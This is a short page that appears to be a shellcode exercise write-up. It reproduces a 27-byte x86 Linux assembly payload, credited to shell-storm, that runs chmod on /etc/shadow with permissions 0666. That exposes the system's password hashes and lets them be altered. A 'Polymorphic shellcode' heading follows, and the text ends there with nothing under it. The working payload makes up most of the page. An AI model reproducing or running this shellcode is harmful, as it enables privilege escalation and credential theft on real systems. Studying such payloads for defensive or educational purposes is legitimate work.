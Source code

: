 ## Initial nasm code

Original shellcode: [Link](http://shell-storm.org/shellcode/files/shellcode-566.php)

Length: 27 bytes

    ; chmod("//etc/shadow", 0666);
    mov al, 15
    cdq
    push edx
    push dword 0x776f6461
    push dword 0x68732f63
    push dword 0x74652f2f
    mov ebx, esp
    mov cx, 0666o
    int 0x80

    
  
 ## Polymorphic shellcode

Length: 



